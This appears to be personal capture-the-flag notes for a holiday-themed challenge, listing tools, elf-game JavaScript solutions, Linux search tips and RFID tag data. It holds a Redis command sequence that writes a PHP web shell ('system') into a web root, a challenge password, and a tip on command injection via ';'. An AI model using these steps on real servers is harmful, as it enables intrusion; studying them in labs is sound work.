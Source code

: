 1. Proxmark  - A powerful RFID tool
1. tmux - terminal multiplexer used in case of vim
1. command injection can happen in menu when you delimit with ; and then write the command

1. Amazon s3 bucket -  https://www.computerweekly.com/news/252491842/Leaky-AWS-S3-bucket-once-again-at-centre-of-data-breach

https://digi.ninja/blog/whats_in_amazons_buckets.php

https://digi.ninja/projects/bucket_finder.php

1. elf game - 
elf.moveTo(lollipop[0])
var b = []
var a =elf.ask_munch
for (let a of elf.ask_munch(0)) {
  if (isInteger(a)) {
    b.push(a)
  }
}
elf.tell_munch(b)
elf.moveUp(2)

1. for (let i = 0; i < 4; ++i) {
  elf.moveTo(lollipop[i])
}
var b = elf.ask_munch(0)
console.log(b)
for (let prop in b) {
  if (b[prop] == "lollipop") {
    elf.tell_much(prop)
  }
}
elf.moveLeft(8)
elf.moveUp(1000)

1. for (let i = 0; i < 4; ++i) {
  elf.moveTo(lollipop[i])
}
var b = ["munchkins rule"]
console.log(b.concat(elf.get_lever(0)))
elf.pull_lever(b.concat(elf.get_lever(0)))
elf.moveLeft(8)
elf.moveUp(1000)

1. printenv to look at environment variables

1. look thorughout the directories
elf@ff8f3b938c80:~/workshop$ grep -i -R "munchkin" ./
./toolbox_191.txt:mUnChKin.4056180441832623

1. creating symbollic link
$ ln -s ./fuse0 ./fuse1

1.  find ./ -group munchkin finding file by group

1. find /some/directory -size +5k -size -10k

1. regex101.com for regex related questions  
\b([a-fA-F0-9]{2}-){5}[a-fA-F0-9]{2}\b
d3-a3-44-d3-d3-d3

1. uncompress

1. Redis cli

redis-cli --raw -a R3disp@ss -h localhost 
R3disp@ss
redis-cli -h localhost
config set dir /var/www/html
config set dbfilename maintenance.php 
set test "<?php phpinfo(); ?>"
save
set test "<?php system('ls') ?>"

756-8347
redis-cli -
https://book.hacktricks.xyz/pentesting/6379-pentesting-redis

1. Op3nTheD00r

1. hiD - light.conf

#db# TAG ID: 2006e22f13 (6025) - Format Len: 26 bit - FC: 113 - Card: 6025

1. https://docs.splunk.com/Splexicon:Index
https://github.com/redcanaryco/atomic-red-team

1. decoder https://gchq.github.io/CyberChef/